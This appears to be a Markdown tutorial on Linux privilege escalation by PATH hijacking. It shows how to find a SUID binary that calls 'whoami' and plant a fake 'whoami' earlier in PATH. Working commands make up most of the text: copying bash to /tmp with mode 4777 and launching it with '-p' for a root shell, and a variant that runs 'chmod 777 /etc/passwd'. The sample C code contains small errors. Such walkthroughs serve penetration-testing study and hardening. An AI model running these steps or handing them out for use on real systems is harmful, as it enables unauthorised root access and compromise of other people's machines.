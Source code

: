 Privilege Escalation through Path Hijacking occurs when an attacker is able to place a malicious executable with the same name as a trusted program earlier in the PATH order, 
they can trick the system into running the malicious executable instead of the legitimate one.

**Note:** These techniques rely on the SUID bit being set on the binary and require execution with elevated privileges.

**If there's a binary which contains the following code:**
```
int main (void) {
 set gid(0);
 set uid(0);
 system(“whoami”);
}
```
This binary, without the SUID bit set, will run as the user executing it. 
For example, if the binary is run as root, the output of the whoami command will show "root". 
However, if the SUID bit is set on the binary, it will always run as root, regardless of the user running it.

**Use the strings command to check the contents of a binary for any known commands that may be useful:**
```
strings user_hello
```
In the output, we need to look for any familiar command. 
For example, In the output of this command we will find, system setuid setgid and whoami commands

**The $PATH environment variable contains a list of directories that the system searches when trying to locate executable files.**
```
echo $PATH
```
For example, in the output 
```/home/user1/.local/bin:/home/user1/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin```
It means that it will search for the binary first in “/home/user1/.local/bin”, then “/home/user1/bin” and so on.

**Find a directory where you have write permissions, such as:**
```cd /home/user1/.local/bin```

**Create a custom binary named whoami in this directory:**
```
vim whoami

#!/bin/bash
cp /usr/bin/bash /tmp/bash 
chmod 4777 /tmp/bash
```
**Make it executable:**
```chmod +x whoami```

**When executing user_hello, it follows the $PATH order and runs this custom 'whoami' first.**
```
./user_hello

ls -lh /tmp/
cd /tmp/
./bash -p
id
sudo su - 
```

**If the $PATH variable does not include a writable directory, or if the writable directory appears last in the list, you can modify the $PATH to prioritize a directory you control.**
```
export PATH=/tmp:$PATH
echo $PATH
```
Now, /tmp is the first directory searched when executing commands.

**Navigate to /tmp and create a script named whoami:**
```
vim whoami
```
**Add the following content to the script:**
```
#!/bin/bash
chmod 777 /etc/passwd
```
**Save the file and make it executable:**
ls -lh /tmp/whoami
```
chmod +x whoami
```
**Finally, run the binary:**
./user_hello
